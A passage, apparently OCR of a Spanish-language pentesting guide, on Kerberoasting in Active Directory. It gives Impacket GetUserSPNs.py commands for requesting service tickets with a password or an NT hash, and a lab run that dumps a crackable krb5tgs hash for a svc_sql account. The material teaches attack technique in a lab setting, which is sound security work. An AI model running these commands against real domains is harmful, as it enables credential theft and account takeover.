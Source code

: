 
## <a name="_page7_x28.35_y56.69"></a>Diversas perspectivas de ataque
Para  iniciar  el  ataque  Kerberoasting,  se  necesitarán  credenciales  válidas,  generalmente  una  cuenta  de usuario  de  dominio.  Esta  cuenta  no  requiere  privilegios  administrativos  específicos.  A  continuación  se muestran varias maneras de realizar el mismo ataque:  
## <a name="_page7_x28.35_y156.61"></a>**Con Impacket: automatizando la extracción**
Impacket es una colección de scripts y herramientas de Python diseñadas para interactuar con protocolos de red y realizar diversas tareas de seguridad. Se utiliza ampliamente para la explotación de Active Directory y es una opción predilecta para los pentesters. 

Este script nos facilita el paso de tener que solicitar un ticket y luego darle formato al hash, es además muy rápido.  

link del proyecto: [https://github.com/fortra/impacket ](https://github.com/fortra/impacket)Ejemplos de uso de manera genérica 

- con una contraseña 
```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password' -request 
```
- con un NT hash 
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER' 
```
Expondremos ahora un ejemplo con credenciales válidas. 
```python
alialucas7[~] $ GetUserSPNs.py -dc-ip 192.168.56.2
'dc.luc4s/attacker:super_contraseña' -request
Impacket v0.13.0.dev0+20250415.195618.c384b5f - Copyright Fortra, LLC and its
affiliated companies
ServicePrincipalName Name MemberOf PasswordLastSet
LastLogon Delegation
------------------------------- -------- -------- --------------------------
-------------------------- ----------
MSSQLSvc/dc-luc4s.dc.luc4s:1433 svc_sql 2025-07-22 14:36:12.033783
<never>
MSSQLSvc/dc.lab.local:1433 svc_sql 2025-07-22 14:36:12.033783
$krb5tgs$23$*svc_sql$DC.LUC4S$dc.luc4s/svc_sql*$18d0e9fac7f0a41564d30e24504813c1$
5379d2584d32e16aeb08e538d7a880434b3000fafad86b1025350e38a02980e6b9e3b44f104e8dfaf
d2f26832a05606af0e7495f81fc8c3d2cb96c7a1c86479256cb08e5c19ab42ee1dd63a7dfb0e058a7
35b73dc686613b734e2ce848b13385ac2336fe032858fdb9767d5fd0aa59e1fbac356d9d9405a760d
0f87c1dd067b7b67a45bb59996c86b0ac1bdb194c0d84c8716a919597263c54a970fb115e65f19b31
146171abf9625273486565a7da1ae56d867fa51f1337a961800d14d2395cbfade30abfe5738373eea
84c97c22c8cdb368257f3f9683db68cfe1a929db1727eaf7cb4803532be56aa6c1059eb6441a9ad5f
a99a06fa1711accfebf0b363b56350dda108453abe3e5b881e83e85184bb1a1ff938e56b703206b57
07dccecce8ec076c4f5a2259bd7b191dff3ec856052e45d0c79cdc22bea6d3fc9a0801ad58034bd86
0837f9cc96cd42228ede5639d5279465662833d19f94155db261e16e6715230bb929d59e2f1591bc2
fa0d64bc5bd5be5a627b0636ed46fcb113836964043e0235b24056d3820606172e035cc5e737242bc
a27667fca3c0fbbacd4d976d5ba65838335587a2f162195f2604dab437087c51abdf78bbd48e9d50d
db7f0dfe416ca92f11d9f37332e8b7d37facb53ad086abee5bb0fa0cdaf8bc459619095bc0f2dcffd
cd99b4ee9541f0853f8eb4a6bf5c84b0e99e1e49c1908538ae9ec14a222fff198eb4d26e873b1f923
42874fdc027bf82f5f05e284d0680eec75aa6ffb2f7e5e17c4da15bfd29f1ceaed7d9802a9ba2cf91
5aceaddd565b09438cfe75e478b15c9b39a0b433a1e314ed808c02a0103f2d190add5b95367dd831d
5825574a4251510cef0f635fc288cdde01d0ab2eec91e4ff1186e902929c4ad2204f6eadeadec7c8c
730e9c9f0c85ed8e715c86c6633d25787789dae2368315d2f761b380b59f1a7db43e1e7da455d5902
719f8ed1831cbaf6d22666c88130e9ec608d45182a499a60b7c1d6f9372fbb3e3ee802835cccd2f61
c4a69b92c78f498095eec0a7e53aef139b5b1ad199c672bc1c7a2d337fd711aa8da4855e2fb51e43f
995928a6f81cdb7370c37aa3af0dc056299335cdf6dcd1b9a5f50559bbc7e72c96b5975ef111ba405
34266d44fa51180e9fb57ab3952d49ab538693b798748b9ba807fbef370bc692b2c82f703508faf66
fc0452ab925c4381f8f50af88198b7dcc9c2438ea134939a40c82dfbe33ad72983b69a1a2c42680cc
```

[ref1]: Aspose.Words.08ebb1d8-49f9-447e-b5c8-f1d77ce92f9d.001.png